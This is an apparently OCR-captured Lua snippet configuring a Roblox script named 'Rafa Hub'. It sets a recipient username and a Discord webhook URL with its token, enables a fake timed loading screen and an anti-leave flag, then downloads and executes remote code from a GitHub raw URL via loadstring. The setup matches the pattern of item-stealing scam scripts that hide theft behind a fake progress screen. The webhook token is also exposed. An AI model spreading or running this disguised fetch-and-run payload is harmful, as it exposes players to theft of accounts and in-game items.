 UserName = "mrkidboyroblox"
Webhook = "https://discord.com/api/webhooks/1108308413953355786/vJpZzB055n6pzs0blN7FVUu4BWV4bohJTwq4jc2rW-Ua_GbpOE_8WjDCvq6QBbDE6CCq"

_G.LoadingScreen = true
_G.AntiLeave = false
_G.MouseLock = true 

_G.ScriptName = "Rafa Hub"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/R/main/Main.lua", true))()
